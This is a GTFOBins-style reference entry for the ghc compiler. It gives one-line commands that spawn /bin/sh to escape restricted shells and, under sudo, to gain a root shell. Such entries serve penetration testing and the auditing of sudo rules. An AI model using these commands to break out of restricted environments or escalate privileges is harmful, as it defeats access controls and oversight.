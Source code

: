 # GTFOBin: ghc

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ghc -e 'System.Process.callCommand "/bin/sh"'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ghc -e 'System.Process.callCommand "/bin/sh"'
```